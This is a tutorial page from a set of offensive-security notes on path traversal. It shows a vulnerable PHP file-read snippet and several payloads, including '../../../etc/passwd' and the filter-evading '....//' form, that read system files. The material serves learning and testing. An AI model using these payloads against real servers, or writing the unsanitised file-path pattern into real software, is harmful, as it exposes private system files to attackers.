

repository: Varonex/cyber-notes · page: notes/offensive-security/web/path-traversal/index.html · generator: mkdocs · copyright: CyberNotes © 2026 by Varonex is licensed under CC BY-NC-SA 4.0. To view a copy of this license, visit CreativeCommons

# Path Traversal

--8<-- "components/legal-disclaimers.md:full"

## Introduction

Path traversal consists in manipulating the filepath of different assets to navigate through the webserver's filesystem remotely.

```html
<img src="/images?path=dog.png"/>
```

If the back treats such requests like this :

```php
<?= file_get_contents("/var/www/images" . $_GET["path"]); ?>
```

We can manipulate the filepath to go through the filesystem :

```html
<img src="/images?path=../../../etc/passwd"/>
<!-- Createns /var/www/images/../../../etc/passwd, which is equivalent to /etc/passwd -->
```

!!! note "File path separator"
	- `/` for unix/bsd/mac.
	- `\` and `/` for Windows.

!!! tip "Combine techniques"
	All the techniques displayed here can be easily combined for more efficiency.
## Traversal techniques

### Absolute Path

>**Goal** : Go directly to the source.

```html
<img src="/images?path=dog.png"/>
```

- `/etc/passwd`

```html
<img src="/images?path=/etc/passwd"/>
```

### Relative path

> **Goal** : Se baser sur le chemin relatif de la source d'images.

```html
<img src="/images?path=dog.png"/>
```

- `../../../etc/passwd`

```html
<img src="/images?path=../../../etc/passwd"/>
```

### Initial file inclusion

> **Goal** : Find and prepend the beginning of the usual path.

```html
<img src="/images?path=dog.png"/>
```

- `/var/www/images/../../../etc/passwd`

```html
<img src="/images?path=/var/www/images/../../../etc/passwd"/>
```

### Doubling characters

> **Goal** : Evade symbol deletion of `..` from the string.

```html
<img src="/images?path=dog.png"/>
```

- `....//....//....//etc/passwd`

```html
<img src="/images?path=....//....//....//etc/passwd"/>
<!-- ..(../)/ : After deletion of pattern "../" (between brackets), it becomes ../
```
